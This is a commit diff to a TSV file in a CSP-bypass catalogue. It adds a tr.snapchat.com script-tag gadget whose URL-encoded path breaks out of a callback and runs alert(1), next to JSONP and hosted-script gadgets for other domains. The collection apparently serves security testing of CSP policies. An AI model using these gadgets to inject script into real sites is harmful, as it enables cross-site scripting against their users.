

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added tr.snapchat.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -172,2 +172,3 @@ translate.yandex.net	<script src="https://translate.yandex.net/api/v1.5/tr.json/
 tr.indeed.com	<script src="https://tr.indeed.com/m/newjobs?q=&l=&ts=1734358724474&callback=alert"></script>
+tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/%27%29%7d%63%61%74%63%68%28%65%29%7b%7d%7d%28%29%3b%61%6c%65%72%74%28%31%29%2f%2f.js"></script>
 udgnoz7mccyaowzp.public.blob.vercel-storage.com	<script src="https://udgnoz7mccyaowzp.public.blob.vercel-storage.com/a-LAZhjxXucrzBiROqCt4bsY3n6srlWP.js"></script>
```
